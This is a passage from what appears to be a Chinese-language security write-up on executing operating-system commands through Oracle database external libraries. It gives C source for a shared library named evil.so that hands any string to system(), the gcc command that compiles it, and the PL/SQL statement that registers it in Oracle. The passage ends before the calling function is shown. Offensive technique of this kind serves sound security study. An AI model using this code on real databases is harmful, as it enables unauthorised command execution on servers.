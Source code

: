 官方文档中也是给出了我们如何添加第三方 lib 的方法。我们首先需要自己编译生成一个恶意 so 文件。

```plain
#include "evil.h"
#include <stdio.h>
#include <stdlib.h>

char* cmd(char* command) {
system(command);
return "ok";
}
```

evil.h

```plain
#ifndef evil_h_
#define evil_h_

extern char* cmd(char* command);

#endif
```

然后将其编译为恶意的 so 文件。  
`gcc -shared -fPIC evil.c -o evil.so`

[![](assets/1710899076-3e8634b84853104167abad1631ec9d16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101101-9e97f8ea-d5de-1.png)

之后我们和上述说的 Java source 的创建方式一样，创建一个 Lib

```plain
create or replace library lib_evil as '/home/oracle/evil.so';
/
```

[![](assets/1710899076-d4dabcfa61fc82b2337f345ba3a103cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101106-a1751c6e-d5de-1.png)

成功创建 Lib 后也是创建一个 function，以 lib 里的代码为模板，这里参考一下网址  
[https://medium.com/codex/extending-the-sql-and-pl-sql-with-custom-external-functions-and-procedures-214067761061](https://medium.com/codex/extending-the-sql-and-pl-sql-with-custom-external-functions-and-procedures-214067761061)
